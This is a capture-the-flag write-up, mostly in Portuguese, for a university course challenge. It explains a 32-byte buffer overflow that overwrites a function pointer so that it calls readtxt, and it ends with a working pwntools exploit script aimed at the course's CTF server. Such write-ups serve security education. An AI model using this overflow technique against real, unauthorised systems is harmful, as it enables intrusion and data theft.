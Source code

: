 # CTF5

 - Yes there is a file that is opened by the program named rules.txt.

 - Modificando o apontador fun novamente para a função readtxt podemos inserir código para ser executado

 -existe uma possibilidade de buffer-overflow já que o buffer criado é de 32 bytes e ao fazer scanf dá abertura para ler 45 caracteres de uma string ou seja 45 bytes.

 Ao sabermos disto é possível provocar um buffer-overflow de maneira a redirecionar o pointer fun para a função readtxt.

 Para realizar este exploit criámos um script em python onde chamamos o programa, criamos um payload e colocamos no scanf do programa

 Foi necessário encontrar o endereço de memória onde a função readtxt se encontra que era 0x80497a5

 sabendo isto apenas precisamos de saber o tamanho do buffer que neste caso é 32

 finalmente no payload precisamos de incluir o nome do ficheiro que pretendemos ler neste caso flag

 Assim criamos o payload da seguinte forma: b"flag\x00" + b"A" * (31 - len("flag")) + p32(0x80497a5)
 passamos \x00 depois do flag para a função sprintf presente no readtxt apenas ler o payload até este momento e ignorar o resto
 colocamos 31 - len("flag") pois é o tamanho do buffer menos tamanho da string ("flag" + "\x00")
 Fazemos p32(readtxt_address) pois o sistema que estamos a trabalhar utiliza little endian para ler endereços de memória.

```python
#!/usr/bin/python3
from pwn import *

# to attack the remote server
r = remote('ctf-fsi.fe.up.pt', 4000)
# to run locally
#r = process('./program')

readtxt_address = p32(0x80497a5)

flag = b"flag\x00"

payload = flag + b"A" * (31 - len("flag")) + readtxt_address
 
r.recvuntil(b"flag:\n")
r.sendline(payload)

buf = r.recv().decode()
print(buf)
```